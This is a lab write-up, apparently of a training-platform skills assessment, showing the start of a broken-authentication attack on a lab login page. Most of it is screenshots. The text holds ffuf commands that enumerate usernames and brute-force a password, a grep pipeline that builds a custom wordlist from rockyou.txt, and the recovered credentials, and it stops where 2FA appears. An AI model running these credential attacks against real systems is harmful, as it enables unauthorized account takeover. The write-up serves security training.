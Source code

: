 # 🚘 Skills Assessment

First i create an account:

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

Then i connect to admin panel:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

I created 2 accounts, felix and felix1 to look at some differences:

and i saw the following:

cookie of felix: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

\---------- felix1: PHPSESSID=oskfiuf01785f4f9ba735e0c3p

<figure><img src="../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok after a bit of messing arounf i find the path

<figure><img src="../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
ffuf -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=FUZZ&password=test" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So we found user gladys

now let's create a custom wordlist according to password policy:

<figure><img src="../../../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
grep '[[:upper:]]' rockyou.txt | grep '[[:lower:]]' | grep '[[:digit:]]' | grep -E '{12}' > custom_wordlist.txt
```

Now we bruteforce:

```
ffuf -w custom_wordlist.txt -u http://94.237.63.227:35458/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Unknown username"
```

<figure><img src="../../../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption><p>dWinaldasD13</p></figcaption></figure>

Now with the creds, let's connect, we can see 2FA:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1360).png" alt=""><figcaption></figcaption></figure>
